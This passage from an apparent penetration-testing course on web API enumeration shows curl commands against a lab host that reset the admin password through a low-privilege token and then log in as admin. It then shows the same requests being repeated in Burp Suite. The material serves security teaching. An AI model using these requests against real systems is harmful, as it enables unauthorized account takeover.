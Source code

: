 ```
kali@kali:~$ curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

> Listing 20 - Attempting to Change the Administrator Password via a PUT request

This time we received no error message, so we can assume the application backend processed the request without error. To prove that our attack succeeded, we can try logging in as admin using the newly changed password.

```
kali@kali:~$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
```

> Listing 21 - Successfully logging in as the admin account

Nice! We managed to take over the admin account by exploiting a logical privilege escalation bug present in the registration API.

These kind of programming mistakes happen to various degrees when building web applications that rely on custom APIs, often due to lack of testing and secure coding best practices.

So far, we have relied on curl to manually assess the target's API so that we could get a better sense of the entire traffic flow.

This approach, however, will not properly scale whenever the number of APIs becomes significant. Luckily, we can recreate all the above steps from within Burp.

As an example, let's replicate the latest admin login attempt and send it to the proxy by appending the _--proxy 127.0.0.1:8080_ to the command. Once done, from Burp's _Repeater_ tab, we can create a new empty request and fill it with the same data as we did previously.

![Figure 23: Crafting a POST request in Burp for API testing](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/52e79b4472fa121dd7d260386dc6a9f7-webenum_api01.png)

Figure 23: Crafting a POST request in Burp for API testing

Next, we'll click on the _Send_ button and verify the incoming response on the right pane.

![Figure 24: Inspecting the API response value](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/95e7f350565cf4049f29a9636984b47b-webenum_api02.png)

Figure 24: Inspecting the API response value

Great! We were able to recreate the same behavior within our proxy, which, among other advantages, enables us to store any tested APIs in its database for later investigation.

Once we've tested several different APIs, we could navigate to the _Target_ tab and then _Site map_. We can then retrieve the entire map of the paths we have been testing so far.

![Figure 18: Using the Site Map to organize API testing](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/74035e000cf0b222b649385e049747f2-webenum_api03.png)
